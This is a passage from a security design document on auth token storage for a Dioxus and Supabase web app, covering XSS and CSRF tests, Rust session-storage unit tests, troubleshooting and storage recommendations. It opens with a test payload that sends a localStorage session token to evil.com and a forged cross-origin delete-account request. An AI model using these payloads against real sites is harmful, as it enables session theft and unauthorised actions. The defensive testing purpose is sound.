// Test 3: URL scheme injection
const maliciousURL = 'javascript:fetch("https://evil.com?token=" + localStorage.getItem("cms_auth_session") + ")";
```

**CSRF Testing**:
```javascript
// Test: Make cross-origin request
fetch('https://yourdomain.com/api/delete-account', {
    method: 'POST',
    credentials: 'include',  // Sends cookies if using HttpOnly
});
```

### Automated Tests

```rust
// tests/token_storage_tests.rs
#[cfg(test)]
mod token_storage_tests {
    use super::*;

    #[test]
    fn test_hybrid_session_save_and_load() {
        let refresh_token = "test_refresh_token";
        let user = User {
            id: "123".to_string(),
            email: "test@example.com".to_string(),
            email_confirmed_at: None,
            created_at: "2024-01-01".to_string(),
            updated_at: "2024-01-01".to_string(),
            last_sign_in_at: None,
        };
        let expires_at = chrono::Utc::now().timestamp() + 3600;

        HybridSessionStorage::save_refresh_token(refresh_token, &user, expires_at).unwrap();
        
        let loaded = HybridSessionStorage::load_refresh_token().unwrap();
        assert_eq!(loaded, Some(refresh_token.to_string()));
        
        HybridSessionStorage::clear_refresh_token().unwrap();
        let after_clear = HybridSessionStorage::load_refresh_token().unwrap();
        assert_eq!(after_clear, None);
    }

    #[test]
    fn test_expired_refresh_token() {
        // Store expired token
        let user = User { /* ... */ };
        let expires_at = chrono::Utc::now().timestamp() - 1000; // Expired

        HybridSessionStorage::save_refresh_token("expired", &user, expires_at).unwrap();
        
        let loaded = HybridSessionStorage::load_refresh_token().unwrap();
        assert_eq!(loaded, None); // Should not load expired token
    }
}
```

---

## Troubleshooting

### Common Issues

**Issue**: Token not refreshing automatically  
**Solution**: Check that `use_effect` with token refresh is being called on app mount

**Issue**: Can't access localStorage in some browsers  
**Solution**: Verify localStorage is enabled and not in private/incognito mode

**Issue**: CORS errors when calling Supabase  
**Solution**: Add Supabase domain to CORS settings in Supabase dashboard

**Issue**: Cookies not being sent with requests  
**Solution**: Ensure `credentials: 'include'` in fetch calls for HttpOnly cookies

**Issue**: Session lost after page refresh  
**Solution**: Verify refresh token is being saved correctly to localStorage

---

## Conclusion

### Summary

| Strategy | Security | Effort | UX | Recommended |
|----------|----------|---------|-----|-------------|
| **localStorage** | Medium | Low | Excellent | For development only |
| **sessionStorage** | Medium | Low | Poor | Not recommended |
| **HttpOnly Cookies** | Very High | High | Excellent | Production standard |
| **In-Memory Only** | High | Low | Poor | Too restrictive |
| **Hybrid Approach** | High | Medium | Good | **Recommended for now** |

### Final Recommendations

1. **Development**: Continue with localStorage (current approach)
2. **Staging**: Implement hybrid approach + security enhancements
3. **Production**: Migrate to HttpOnly cookies with proxy server

### Next Actions

1. ✅ Review this document
2. ⬜ Add CSP headers (Phase 1, Step 1)
3. ⬜ Sanitize all user inputs (Phase 1, Step 2)
4. ⬜ Implement hybrid approach (Phase 2)
5. ⬜ Plan proxy server for HttpOnly cookies (Phase 3)

---

## Resources

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [OWASP CSRF Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [Content Security Policy Level 3](https://www.w3.org/TR/CSP3/)
- [MDN Web Security](https://developer.mozilla.org/en-US/docs/Web/Security)
- [Supabase Auth Best Practices](https://supabase.com/docs/guides/auth/server-side/managing-user-sessions)
- [JWT Security Best Practices](https://tools.ietf.org/html/rfc8725)
- [Cookie Security Attributes](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies)
- [Dioxus Security Considerations](https://dioxuslabs.com/docs/guides/security)

---

**Document Version**: 1.0  
**Last Updated**: 2024-12-01  
**Author**: Content Profile Team  
**Status**: Ready for Implementation
